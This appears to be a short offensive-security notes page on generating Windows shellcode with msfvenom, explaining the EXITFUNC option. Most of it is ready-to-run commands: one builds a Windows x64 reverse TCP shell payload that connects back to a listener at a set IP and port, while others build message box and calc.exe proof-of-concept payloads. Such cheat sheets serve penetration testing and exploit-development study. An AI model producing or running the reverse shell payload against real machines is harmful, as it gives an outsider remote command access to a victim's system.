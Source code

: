 ```yaml
---
description: 06/08/2022
---
```


# 🐚 Generating Shellcode w/ MSFVenom

## Examples

### Reverse Shells

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.76.128 LPORT=1337 -f c -b \x00\x0a\x0d\x20
```

#### More Advanced Args

```
msfvenom -p windows/x64/messagebox EXITFUNC=thread -f c ReverseAllowProxy=false ReverseListenerThreaded=false StagerRetryCount=10 StagerRetryWait=5 PingbackRetries=0 PayloadUUIDTracking=false EnableStageEncoding=false StageEncoderSaveRegisters=  StageEncodingFallback=true PrependMigrate=false AutoLoadStdapi=true
```

### Windows Message Box

```
msfvenom -p windows/x64/messagebox EXITFUNC=thread -f c
```

### "Pop Calc"

```
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f c
```

## Notes

{% embed url="https://www.hacking-tutorial.com/tips-and-trick/what-is-metasploit-exitfunc/" %}

Why `EXITFUNC=thread`? It will specify a DLL and function to call when the payload is complete.&#x20;

`thread` is the most used in exploitation scenarios where the exploited process runs the shellcode in a subthread and upon exiting this thread will result in a working application/system (clean exit).
